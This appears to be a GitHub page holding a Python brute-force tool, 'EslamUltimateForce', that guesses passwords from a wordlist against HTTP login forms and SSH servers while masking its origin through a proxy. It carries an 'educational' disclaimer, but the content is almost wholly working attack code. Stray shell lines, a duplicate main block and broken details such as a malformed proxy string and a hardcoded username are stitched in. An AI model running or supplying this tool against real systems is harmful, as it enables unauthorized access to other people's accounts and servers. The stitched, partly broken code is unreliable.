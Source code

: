 # EslamUltimateForce - Brute Force Tool
# Developed by Eslam Hacker FB
# This tool is for educational purposes only.
# Be responsible and use it ethically in your testing environments.

import requests
import paramiko
import time
import sys
import threading

# Proxychains support (for IP masking)
import os

# Global Variables
USERNAME = "Eslam Hacker FB"  # Disable or remove username field (personalize)
PROXY = "socks4 127.0.0.1 9050"  # Proxy to mask the IP

# Function to perform brute-force on HTTP login
def brute_force_http(url, wordlist):
    """
    Function to attempt brute force on an HTTP login page
    :param url: URL of the login page (e.g., http://example.com/login)
    :param wordlist: Path to the wordlist file containing passwords
    """
    with open(wordlist, 'r') as file:
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()  # Remove any trailing spaces
        try:
            response = requests.post(url, data={'username': USERNAME, 'password': password}, proxies={'http': PROXY})
            if "login successful" in response.text.lower():
                print(f"Password found for {USERNAME}: {password}")
                break
        except requests.exceptions.RequestException as e:
            print(f"Error with the request: {e}")
            continue

# Function to perform brute-force on SSH login
def brute_force_ssh(ip, username, wordlist):
    """
    Function to attempt brute force on an SSH server
    :param ip: Target IP address (e.g., 192.168.1.1)
    :param username: SSH username
    :param wordlist: Path to the wordlist file containing passwords
    """
    with open(wordlist, 'r') as file:
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()  # Remove any trailing spaces
        try:
            client = paramiko.SSHClient()
            client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            client.connect(ip, username=username, password=password)
            print(f"Password found for {username}: {password}")
            client.close()
            break
        except paramiko.AuthenticationException:
            print(f"Invalid password for {username}: {password}")
            continue
        except Exception as e:
            print(f"Error with the SSH connection: {e}")
            continue

# Main function to start the brute-force attack
def start_attack():
    print("Welcome to EslamUltimateForce Brute-Force Tool!")
    print("-------------------------------------------------")
    attack_type = input("Choose attack type (HTTP or SSH): ").strip().lower()

    wordlist = input("Enter path to wordlist file: ").strip()

    if attack_type == "http":
        url = input("Enter target HTTP login URL: ").strip()
        brute_force_http(url, wordlist)
    elif attack_type == "ssh":
        ip = input("Enter target IP address: ").strip()
        username = input("Enter SSH username: ").strip()
        brute_force_ssh(ip, username, wordlist)
    else:
        print("Invalid attack type chosen. Please choose either HTTP or SSH.")
        sys.exit(1)

if __name__ == "__main__":
    start_attack()
pip install pillow
from PIL import Image

# Welcome Message with colorful eyes design
def display_welcome_message():
    print("\033[1;32;40m")  # Set terminal text to green
    image = Image.open('path_to_your_image.png')  # Make sure to put the image path here
    image.show()
    print("\033[1;37;40m")  # Reset terminal text color
    print("\033[1;34mWelcome to EslamUltimateForce by Eslam Hacker FB \033[0m")

# Use this in the main function to show the image and text
if __name__ == "__main__":
    display_welcome_message()
    start_attack()
git push -u origin master
